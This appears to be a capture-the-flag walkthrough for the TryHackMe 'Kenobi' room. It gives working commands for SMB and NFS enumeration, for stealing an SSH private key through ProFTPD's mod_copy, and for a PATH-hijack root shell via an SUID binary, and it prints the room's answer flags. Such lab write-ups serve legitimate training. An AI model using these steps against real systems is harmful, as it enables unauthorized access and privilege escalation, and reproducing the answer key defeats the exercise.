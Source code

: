 ![Kenobi Banner](https://i.imgur.com/zWNY3JF.png)

<p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/kenobi/ROOM_TITLE_Cover.png" alt="Kenobi Logo">
</p>

# Kenobi

This guide contains the answer and steps necessary to get to them for the [Kenobi](https://tryhackme.com/room/kenobi) room.

## Table of contents

- [Deploy the vulnerable machine](#deploy-the-vulnerable-machine)
- [Enumerating Samba for shares](#enumerating-samba-for-shares)
- [Gain initial access with ProFtpd](#gain-initial-access-with-proftpd)
- [Privilege Escalation with Path Variable Manipulation](#privilege-escalation-with-path-variable-manipulation)

### Deploy the vulnerable machine

1. Make sure you're connected to our network and deploy the machine

2. Scan the machine with nmap, how many ports are open?

   Using nmap we can scan for open ports using:

   ```console
   sudo nmap -sS 10.10.208.77
   ```

   DEPLOY NMAP

   ><details><summary>Click for answer</summary>7</details>

### Enumerating Samba for shares

1. Using nmap we can enumerate a machine for SMB shares. Nmap has the ability to run to automate a wide variety of networking tasks. There is a script to enumerate shares! `nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP` SMB has two ports, 445 and 139. Using the nmap command above, how many shares have been found?

   Using the following command we can find all available shares:

   ```console
   nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.208.77
   ```

   ENUMERATE SHARES

   ><details><summary>Click for answer</summary>3</details>

2. On most distributions of Linux smbclient is already installed. Lets inspect one of the shares. `smbclient //MACHINE_IP/anonymous` Using your machine, connect to the machines network share. Once you're connected, list the files on the share. What is the file can you see?

   We can connect to the share using `smbclient //10.10.208.77/anonymous`.

   Then we list the files using `dir`.

   ENUMERATE FILES

   We can download this file using `smbget`.

   ```console
   smbget -R smb://10.10.208.77/anonymous
   ```

   ENUMERATE SMBGET

   ><details><summary>Click for answer</summary>log.txt</details>

3. You can recursively download the SMB share too. Submit the username and password as nothing. `smbget -R smb://MACHINE_IP/anonymous` Open the file on the share. There is a few interesting things found. Information generated for Kenobi when generating an SSH key for the user Information about the Pro FTPD server. What port is FTP running on?

   In our previous nmap scan we can find the port ftp is running on.

   ><details><summary>Click for answer</summary>21</details>

4. Your earlier nmap port scan will have shown port 111 running the service rpcbind. This is just a server that converts remote procedure call (RPC) program number into universal addresses. When an RPC service is started, it tells rpcbind the address at which it is listening and the RPC program number its prepared to serve. In our case, port 111 is access to a network file system. Lets use nmap to enumerate this. `nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP` What mount can we see?

   Using the following command and script we can find out which mount is accessible.

   ```console
   nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.208.77
   ```

   ENUMERATE MOUNT

   ><details><summary>Click for answer</summary>/var</details>

### Gain initial access with ProFtpd

1. Lets get the version of ProFtpd. Use netcat to connect to the machine on theFTPport. What is the version?

   We can either get the version by scanning with nmap (using -sV) or netcat.

   ```console
   nmap 10.10.208.77 -p21 -sV
   ```

   ```console
   nc 10.10.208.77 21
   ```

   PROFTP VERSION

   ><details><summary>Click for answer</summary>1.3.5</details>

2. We can use searchsploit to find exploits for a particular software version. Searchsploit is basically just a command line search tool for exploit-db.com. How many exploits are there for the ProFTPd running?

   Using the following command we can find any exploits for this particular version.

   ```console
   searchsploit proftp 1.3.5
   ```

   PROFTP EXPLOITS

   ><details><summary>Click for answer</summary>4</details>

3. You should have found an exploit from ProFtpd'smod_copy module.The mod_copy module implementsSITE CPFRandSITE CPTOcommands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from anypart of the filesystem to a chosen destination.We know that theFTPservice is running as the Kenobi user (from the file on the share) and an ssh key is generated for that user.

4. We're now going to copy Kenobi's private key using SITE CPFR and SITE CPTO commands. We knew that the /var directory was a mount we could see (task 2, question 4). So we've now moved Kenobi's private key to the /var/tmp directory.

   Running `site help` when connected to the FTP server we can indeed see that the cpfr and cpto commands are available. We can use these to move the id_rsa ssh key to the /var folder.

   ```console
   site cpfr /home/kenobi/.ssh/id_rsa
   site cpto /var/tmp/id_rsa
   ```

   PROFTP TRANSFER

5. Lets mount the /var/tmp directory to our machine `mkdir /mnt/kenobiNFS`. `mount MACHINE_IP:/var /mnt/kenobiNFS` `ls -la /mnt/kenobiNFS` We now have a network mount on our deployed machine! We can go to /var/tmp and get the private key then login to Kenobi's account.What is Kenobi's user flag (/home/kenobi/user.txt)?

   After mounting the /var share using:

   ```console
   sudo mount 10.10.208.77:/var /mnt/KenobiNFS
   ```

   we now have access to it from our machine. And we can cleary see the moved ssh key inside.

   PROFTP MOUNTED

   Now lets move the file to our main folder and change the permissions to strict (otherwise ssh won't allow us to use it).

   ```console
    cp /mnt/KenobiNFS/tmp/id_rsa .
    chmod 600 id_rsa
    ```

    PROFTP COPY

    Now we can use the key to ssh into the machine using:

    ```console
    ssh -i id_rsa kenobi@10.10.208.77
    ```

    PROFTP FLAG

   ><details><summary>Click for answer</summary>d0b0f3f53b6caa532a83915e19224899</details>

### Privilege Escalation with Path Variable Manipulation

1. SUID bits can be dangerous, some binaries such as passwd need to be run with elevated privileges (as its resetting your password on the system), however other custom files could that have the SUID bit can lead to all sorts of issues.To search the a system for these type of files run the following: `find / -perm -u=s -type f 2>/dev/null`. What file looks particularly out of the ordinary?

   After running `find / -perm -u=s -type f 2>/dev/null` we can look through the returned files for any that may stand out.

   ESCALATION SUID

   ><details><summary>Click for answer</summary>/usr/bin/menu</details>

2. Run the binary, how many options appear?

   Run the binary with `menu`.

   ESCALATION MENU

   ><details><summary>Click for answer</summary>3</details>

3. Strings is a command onLinuxthat looks for human readable strings on a binary. This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname). As this file runs as the root users privileges, we can manipulate our path gain a root shell. We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

4. What is the root flag (/root/root.txt)?

   First we must create a version of curl containing a shell and give it the right permissions.

   ```console
   echo /bin/sh > /tmp/curl

   chmod 777 /tmp/curl
   ```

   Next we must add the `/tmp` folder to the PATH variable and we can run the program.

   ```console
   export PATH=/tmp:$PATH
   
   /usr/bin/menu
   ```

   Select option 1 to get a shell. Now we can get our flag.

   ESCALATION SHELL

   ><details><summary>Click for answer</summary>177b3cd8562289f37382721c28381f02</details>

